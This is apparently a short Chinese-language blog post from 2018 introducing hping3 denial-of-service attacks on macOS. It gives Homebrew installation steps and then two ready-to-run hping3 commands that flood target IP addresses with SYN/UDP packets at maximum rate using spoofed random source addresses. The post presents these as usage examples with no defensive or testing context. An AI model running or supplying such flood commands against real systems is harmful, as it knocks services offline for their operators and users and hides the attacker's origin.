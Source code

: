 ```yaml
---
title: Mac hping3 dos攻击简单介绍
date: 2018-07-20 11:00:53
tags: [dos]
categories: [hping3]
---
```

## 安装
1. 安装homebrew
```
/usr/bin/ruby -e "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install)"
```
> homebrew 安装的文件默认在/usr/local/Cellar下
2. 安装 hping
``` 
  brew install hping
```
3. 环境变量配置
由于hping安装后文件在/usr/local/sbin下，所以得添加环境变量到.bash_profile 
```
export PATH=$PATH:/usr/local/sbin
```

## 使用
```
sudo hping3 -S -U --flood -V --rand-source 192.168.0.217
sudo  hping3  -d 120 -S -w 64 -p 80 --flood --rand-source 10.194.35.254  -i u100
```



